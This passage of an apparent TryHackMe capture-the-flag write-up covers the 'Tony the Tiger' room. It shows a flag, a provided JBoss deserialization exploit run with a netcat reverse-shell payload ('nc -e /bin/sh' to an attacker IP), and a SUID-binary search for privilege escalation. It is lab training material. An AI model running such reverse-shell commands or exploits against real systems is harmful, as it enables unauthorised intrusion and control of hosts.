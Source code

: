 > THM{Tony_Sure_Loves_Frosted_Flakes}


---
## Reverse Shell
As this is a guided room, there is an exploit provided to research and experiment with to get a reverse shell:

```
┌──(kali㉿kali)-[~/THM/TonyTheTiger/Exploit/jboss]
└─$ sudo python2 exploit.py 10.10.82.48:8080 "nc -e /bin/sh 10.9.0.151 4444"
[*] Target IP: 10.10.82.48
[*] Target PORT: 8080
[+] Command executed successfully
```

And got me a reverse shell as the user *cmnatic*!

And upgraded the shell.


---
## Linux Enum
Poke the penguin!

### sudo
No password for this user, so no sudo.

### SUID
Nothing really interesting here yet.

```
cmnatic@thm-java-deserial:/$ find / -perm -4000 2> /dev/null
/bin/mount
/bin/ping6
/bin/su
/bin/ping
/bin/fusermount
/bin/umount
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/at
/usr/bin/mtr
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/sbin/pppd
/usr/sbin/uuidd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
